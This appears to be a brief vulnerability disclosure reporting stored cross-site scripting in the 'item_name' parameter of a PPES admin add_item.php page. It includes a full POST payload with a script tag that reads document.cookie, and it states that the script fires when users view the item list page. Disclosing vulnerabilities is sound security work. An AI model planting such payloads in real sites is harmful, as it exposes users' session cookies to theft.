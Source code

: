 BUG_Author: LeoZhangCA

Vulnerability File: /PPES/admin/add_item.php

POST parameter "item_name" exists stored cross-site scripting vulnerability

Payload: ```item_name=<script>alert(document.cookie)</script>&item_brand=2&item_serial=3&item_status=New&item_description=<p>4</p>&save=```

![image](https://github.com/LeozhangCA/CVEReport/blob/main/picture/storeXSS1.png)

Payload will trigger when a user visits on http://localhost/PPES/admin/item.php

![image](https://github.com/LeozhangCA/CVEReport/blob/main/picture/storeXSS2.png)
